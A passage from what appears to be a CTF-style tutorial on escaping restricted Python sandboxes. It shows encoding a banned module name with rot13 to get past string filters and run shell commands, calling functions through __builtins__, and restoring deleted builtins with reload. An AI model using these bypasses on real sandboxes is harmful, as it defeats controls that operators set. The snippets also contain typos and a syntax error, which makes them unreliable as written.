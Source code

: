 Above code, we can't use os,commands,subprocess,sys,import any more.so what tech can we use to bypass this sandbox? \_\_import\_\_ and imoprtlib may is useful. We kown imoprt is a key word, so the packet name must be tag. But for function, it need parameter. And the \_\_imoprt\_\_ is the function version of import, so the packet name will be parameter not tag. Then we can encode the parameter to bypass string filter. The theory of importlib is same.

```` python
f3ck = __import__("pbzznaqf".decode('rot_13'))
print f3ck.getoutput('ifconfig')

import importlib
f3ck = importlib.import_module("pbzznaqf".decode('rot_13')
print f3ck.getoutput('ifconfig')
````

Except these, builtin function is also useful. The builtin function is live in python environment and need't import. \_\_builtin\_\_ is the object having some builtin functions, we can use it to achieve some goals.

For example, if we want to use open, init, chr, we juset need to use \_\_builtin\_\_.open(), \_\_builtin\_\_.init(), \_\_builtin\_\_.chr()

```` python
__builtins__.open()
__builtins__.init()
__builtins__.chr()
````

\_\_builtin\_\_ have some another dangerous functions(_\_import\_\_,eval,exec,execfile)，so the defender may delete these. When it be deleted from \_\_builtin\_\_, we can't use it.

````python
>>> del __builtins__.chr
>>> del __builtins.chr
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name '__builtins' is not defined
````

Although delete this function feel is safe, we can use reload(__buiiltins\_\_), then those are deleted function before can use again. The reload function is from imp packet.

````python
import imp
imp.reload(__builtins__)
````

## use object/module's attribution

First, introduce a function dir. it will show attribution that the object/module can use. For example, if we want to know the list have how many functions, we can use dir([]) .

````python
>>> dir([])
['__add__', '__class__', '__contains__', '__delattr__', '__delitem__', '__delslice__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getslice__', '__gt__', '__hash__', '__iadd__', '__imul__', '__init__', '__iter__', '__le__', '__len__', '__lt__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__reversed__', '__rmul__', '__setattr__', '__setitem__', '__setslice__', '__sizeof__', '__str__', '__subclasshook__', 'append', 'count', 'extend', 'index', 'insert', 'pop', 'remove', 'reverse', 'sort']
````
